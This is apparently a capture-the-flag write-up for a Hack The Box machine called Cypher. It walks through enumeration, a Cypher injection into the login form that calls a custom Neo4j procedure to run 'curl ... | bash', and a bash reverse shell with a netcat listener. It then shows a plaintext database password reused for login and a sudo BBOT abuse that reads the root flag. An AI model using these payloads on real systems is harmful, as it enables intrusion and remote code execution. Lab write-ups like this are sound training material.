Enumeration Nmap

```zsh
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```zsh
echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```

```
whatweb http://cypher.htb/
```



Login panel



```zsh
feroxbuster -u http://cypher.htb/
```



```zsh
gobuster dir -u http://cypher.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```



```zsh
gobuster dir -u http://cypher.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt
```



Open the file .jar on /testing path



Identify the system is running neo4j



neo4j 5.23.0

Intentamos un simple injeccion de SQL

```sql
' or 1=1-- -
```



we open again and looking a depth



I supported with deepseek AI.

### **Code Analysis: `custom.getUrlStatusCode` in Neo4j (APOC)**

This Java code defines a **custom Neo4j procedure** called `custom.getUrlStatusCode` that fetches the HTTP status code of a given URL using `curl`



_Use java decompiler https://java-decompiler.github.io/ for open custom-apoc-extension-1.0-SNAPSHOT.jar_

```zsh
echo "/bin/bash -i >& /dev/tcp/10.10.15.14/4444 0>&1" > shell.sh
```

`python3 -m http.server 80`

```zsh
rlwrap nc -lvnp 4444
```
## Injeccion Cypher

```ruby
{"username":"admin' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.htb; curl 10.10.15.14/shell.sh | bash;#\") YIELD statusCode AS a RETURN a;//","password":"admin"}
```

`UNION CALL` calls a storage proccess call `custom.getUrlStatusCode` with arguments for run malicious shell ``"cypher.htb; curl 10.10.15.14/shell.sh | bash;#"`` and `YIELD statusCode AS a RETURN a` for return to proccess results




---

> Also cypher supports querying with parameters
>`http://cypher.htb/api/cypher ?query=CALL%20custom.getUrlStatusCode(%22cypher.htb;%20id%22)`



---

## neo4j

Obtained a shell no interactive




```
neo4j
cU4btyib.20xtCMCXkBmerhK
```

re-use pasword for graphasm



`sudo -l`



BBOT v2.1.0



Privelege Escalation

```zsh
sudo /usr/local/bin/bbot -t /root/root.txt -o /tmp/bandera_out -d
```



the flag appears as `DNS query with args=`



or looking in output.txt 



